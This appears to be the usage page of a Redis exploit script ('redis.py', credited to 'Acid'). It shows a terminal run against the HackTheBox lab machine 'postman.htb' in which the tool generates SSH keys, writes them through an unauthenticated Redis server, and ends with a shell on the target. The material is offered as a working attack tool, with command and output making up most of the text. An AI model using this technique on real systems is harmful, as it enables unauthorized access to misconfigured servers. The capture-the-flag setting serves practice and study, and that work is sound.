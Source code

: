 
    --- AUTOMATICALLY ---
    SYNTAX: python redis.py <TARGET-HOST> <TARGET USER>
    root@p3:/opt/htb/machines/postman# python redis.py postman.htb redis
      *******************************************************************
      * [+] [Exploit] Exploiting misconfigured REDIS SERVER*
      * [+] AVINASH KUMAR THAPA aka "-Acid"
      *******************************************************************


      SSH Keys Need to be Generated
      Generating public/private rsa key pair.
      Enter file in which to save the key (/root/.ssh/id_rsa): /opt/htb/machines/postman/id_rsa
      Enter passphrase (empty for no passphrase):
      Enter same passphrase again:
      Your identification has been saved in /opt/htb/machines/postman/id_rsa.
      Your public key has been saved in /opt/htb/machines/postman/id_rsa.pub.
      The key fingerprint is:
      SHA256:3g7innFErBgyZ0Gyddm3m2KtlZ691TebaXAnProOcE8 acid_creative
      The key's randomart image is:
      +---[RSA 3072]----+
      |  ..+ .o         |
      |   + o... .      |
      |  + +   o. .     |
      |   = o o  .      |
      |    . . S..+E    |
      |       oo+*o ..o.|
      |      o.+=oo..+o+|
      |     . =.oo...o.*|
      |     .+   ..=+.= |
      +----[SHA256]-----+
      	 Keys Generated Successfully
      OK
      OK
      OK
      (error) ERR Changing directory: Permission denied
      OK
      OK
      	You'll get shell in sometime..Thanks for your patience
      Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage


       * Canonical Livepatch is available for installation.
         - Reduce system reboots and improve kernel security. Activate at:
           https://ubuntu.com/livepatch
      Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
